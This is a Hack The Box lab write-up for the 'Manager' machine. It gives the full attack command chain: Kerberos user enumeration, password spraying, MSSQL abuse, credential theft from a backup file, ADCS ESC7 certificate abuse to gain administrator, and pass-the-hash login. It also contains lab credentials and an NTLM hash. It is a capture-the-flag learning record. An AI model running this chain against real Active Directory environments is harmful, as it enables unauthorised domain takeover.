


---
---

# HTB - Manager

NMAP


 
Add manager.htb to /etc/hosts

```bash
./kerbrute userenum --dc 10.129.217.154 -d manager.htb /usr/share/seclists/Usernames/xato-net-10-million-usernames.txt -o users.txt

```


```bash
cat users.txt | grep "VALID" | cut -d ":" -f 4 | cut -d " " -f 2 > validusers.txt

impacket-GetNPUsers manager.htb/ -users validusers.txt -no-pass -dc-ip manager.htb
```


- No ASRepRoasting to be done

- Not able to login with usernames and no password:
  
```bash
enum4linux -u "guest" -a manager.htb

```
- Extract the usernames:
  
```bash
cat validusers.txt | cut -d '@' -f1 > usernames.txt

```
- Got a using the usernames as passwords:
  
```bash
crackmapexec smb manager.htb -u usernames.txt -p usernames.txt --no-brute --continue-on-success

```


**operator:operator**

**<u>MSSQL</u>**

- We do have port 1433 open - MSSQL:

- Using Windows' own **sqlcmd** - it doesn't work:
  
```bash
sqlcmd -S manager.htb,1433 -U operator -P operator -C

```


- But using impacket's tool mssqlclient:
  
```bash
impacket-mssqlclient -p 1433 manager/operator:operator@manager.htb -windows-auth

```


We can connect specifying the **-windows-auth** parameter

It authenticates using Windows authentication, which could suggest that the 'operator' account is configured or works correctly under Windows authentication rather than SQL Server authentication

<u>List of extra commands:</u>


```sql
SELECT @@VERSION -- to get the SQL Server version,
SELECT SYSTEM_USER -- to identify the current user,
SELECT name FROM master.sys.databases -- to list databases
USE DatabaseName; -- Use db
SELECT table_name FROM information_schema.tables WHERE table_type = 'BASE TABLE'; -- Show all tables in db
SELECT * FROM TableName; -- Show all information in table
```
----------------------------------------------------------------------------------------------------------------

- Tried to crack ntlm hashes with xp_dirtree and responder:


But hashcat got exhausted

----------------------------------------------------------------------------------------------------------------

- Using xp_dirtree we can list all the folders in c:\\


- The default IIS webserver directory is:  
**C:\inetpub\wwwroot**


Here we can see a .zip file

- Using wget we can download the file:
  
```bash
wget http://manager.htb/website-backup-27-07-23-old.zip

```


- We get credentials for raven in the **.old-conf.xml**:


**raven : R4v3nBe5tD3veloP3r!123**


```bash
evil-winrm -i manager.htb -u raven -p 'R4v3nBe5tD3veloP3r!123'

```


```bash
cat user.txt

```
- Check VMWare version:
  
```powershell
$vmwareToolsDir = "C:\Program Files\VMware\VMware Tools"
$vmwareToolsVersion = (Get-Item "$vmwareToolsDir\vmtoolsd.exe").VersionInfo.FileVersion
Write-Host "VMware Tools Version: $vmwareToolsVersion"

```


- Upload Certify.exe:
**Certify is a C# tool to enumerate and abuse misconfigurations in Active Directory Certificate Services (AD CS)**

<https://github.com/GhostPack/Certify>

```bash
.\Certify.exe find /vulnerable

```


Raven has ManageCA and Enroll rights but there are no vulnerable templates

This does confirm however that there are ADCS services running


- <u>This scenario is vulnerable to ESC7:</u>
<https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/ad-certificates/domain-escalation>

<https://github.com/ly4k/Certipy?tab=readme-ov-file#esc7>

- **<u>Steps (on Kali):</u>**

```bash
certipy ca -ca 'manager-DC01-CA' -add-officer raven -username raven@manager.htb -password 'R4v3nBe5tD3veloP3r!123'

```


```bash
certipy ca -ca 'manager-DC01-CA' -enable-template SubCA -username raven@manager.htb -password 'R4v3nBe5tD3veloP3r!123'

```


**<u>Attack</u>**

- If we have fulfilled the prerequisites for this attack, we can start by requesting a certificate based on the SubCA template.
This request will be denied, but we will **save the private key** and note down the **request ID**

```bash
certipy req -username raven@manager.htb -password 'R4v3nBe5tD3veloP3r!123' -ca 'manager-DC01-CA' -target manager.htb -template SubCA -upn administrator@manager.htb

```



- With our Manage CA and Manage Certificates, we can then issue the failed certificate request with the ca command and the
-issue-request \<request ID\> parameter

```bash
certipy ca -ca 'manager-DC01-CA' -issue-request **13** -username raven@manager.htb -password 'R4v3nBe5tD3veloP3r!123'

```


- And finally, we can retrieve the issued certificate with the req command and the -retrieve \<request ID\> parameter

```bash
certipy req -username raven@manager.htb -password 'R4v3nBe5tD3veloP3r!123' -ca 'manager-DC01-CA' -target manager.htb -retrieve 13

```


- Now we have a **.pfx certificate** as the administrator

- Authenticate as the administrator:
  
```bash
certipy auth -pfx administrator.pfx -dc-ip 10.129.218.140

```


We get a NTP error because the time difference between my Kali machine and the DC is too big

- To synchronise the time, run:
  
```bash
sudo ntpdate -u manager.htb

```


These two steps, between the ntp sync and auth, needs to be quick

- And we get an administrator hash:



- Using the hash and evil-winrm:
  
```bash
evil-winrm -i manager.htb -u administrator -H ae5064c2f62317332c88629e025924ef

```


```bash
cat root.txt

```
